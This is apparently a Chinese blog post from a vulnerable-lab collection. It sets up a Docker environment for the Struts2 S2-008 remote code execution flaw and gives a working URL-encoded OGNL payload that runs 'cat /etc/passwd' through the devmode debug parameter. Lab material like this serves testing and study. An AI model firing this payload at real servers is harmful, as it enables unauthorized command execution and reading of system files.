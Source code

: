 ```yaml
---
layout: post
title: "Struts2 远程代码执行漏洞(S2-008)"
date: 2017-06-13 18:43:54 +0800
image: '/assets/img/'
description: 'Struts2 远程代码执行漏洞(S2-008)环境'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: 'Struts2 远程代码执行漏洞(S2-008)环境'
introduction: 'Struts2 远程代码执行漏洞(S2-008)环境'
---
```


<style type="text/css">
.highlight pre{
  white-space: pre-wrap;
}    
</style>

### 漏洞信息

 * [S2-008 公告](http://struts.apache.org/docs/s2-008.html)

参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_struts2_s2-008
 ```

2. 启动环境
 ```bash
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-008
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行

```
/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27cat /etc/passwd%27%29.getInputStream%28%29%29)
```

![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-008/s2-008-1.png)

### 其它

感谢 [@zerokeeper](https://github.com/zerokeeper) 贡献
